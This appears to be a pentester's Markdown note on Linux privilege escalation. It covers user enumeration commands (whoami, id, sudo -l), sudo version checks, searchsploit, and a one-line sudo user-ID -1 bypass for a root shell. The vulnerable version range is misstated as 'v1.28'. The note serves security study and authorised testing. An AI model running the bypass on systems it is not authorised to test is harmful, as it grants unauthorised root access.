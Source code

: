 ```yaml
---
id: User Enumeration
aliases: []
tags:
  - Linux/Privesc/User-Enumeration
links: "[[Privesc]]"
---
```


# User Enumeration

<!-- User & Group {{{-->
## User & Group

Enumerate current user and group

### User

#### whoami

The `whoami` command displays the currently logged in user on the system by
examining the `/etc/passwd` file.

- [Wikipedia - whoami](https://en.wikipedia.org/wiki/Whoami)
- [IBM - whoami command](https://www.ibm.com/docs/ssw_aix_72/w_commands/whoami.html)

Check the currently logged in user on the system

```sh
whoami
```

#### Home directory

Investigate the user's home directory

```sh
/home/{username}/
```

### Group

#### id

Display the system identifications of a specified user.

- [Cyberciti - Linux/Unix id Command Examples](https://www.cyberciti.biz/faq/unix-linux-id-command-examples-usage-syntax/)
- [IBM - id Command](https://www.ibm.com/docs/en/aix/7.3.0?topic=i-id-command)

Find a user’s UID (user ID) or GID (group ID) and other information

```sh
# Synopsis
id [Username] id [options]

# Current user
id

# Spicify a user
id -u {user}
```

### root

Investigate the `/root` directory

```sh
/root
```
<!-- }}} -->

<!-- Sudo {{{-->
## Sudo

<!-- Sudo version {{{-->
### Sudo version

Check `sudo` version

```sh
sudo --version
```

```sh
sudo -V
```
<!-- }}} -->

<!-- Sudo vulnerabilities {{{-->
### Sudo vulnerabilities

Check if `sudo` version is in a vulnerable range

```sh
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```

Search `sudo` version for public exploits

```sh
searchsploit sudo
```

`sudo` < v1.28

```sh
sudo -u#-1 /bin/bash
```
<!-- }}} -->

<!-- Sudo commands {{{-->
### Sudo commands

Check which commands the current user may run

```sh
sudo -l
```

Run command as `user`

```sh
sudo -u user /bin/echo Hello World!
```

The found command(s) may be exploited with [GTFOBins](https://gtfobins.github.io/)
<!-- }}} -->

<!-- }}} -->
